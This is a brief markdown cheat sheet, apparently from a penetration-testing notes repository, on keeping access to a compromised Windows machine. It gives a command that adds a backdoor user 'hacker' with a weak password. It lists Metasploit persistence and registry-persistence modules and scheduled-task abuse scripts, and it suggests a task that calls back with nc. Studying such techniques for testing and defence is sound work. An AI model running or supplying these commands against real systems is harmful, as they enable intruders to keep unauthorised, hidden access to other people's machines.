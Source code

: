 # Add a User
```
net user hacker password123 /add
```

# Persistance Scripts
## metasploit
```
run persistance -h
```
```
exploit/windows/local/persistance
exploit/windows/local/registry_persistance
```
# Scheduled Tasks
```
run scheduleme
run schtaskabuse
```
Essentially create a task that pings back every now and then.. with nc or something similar

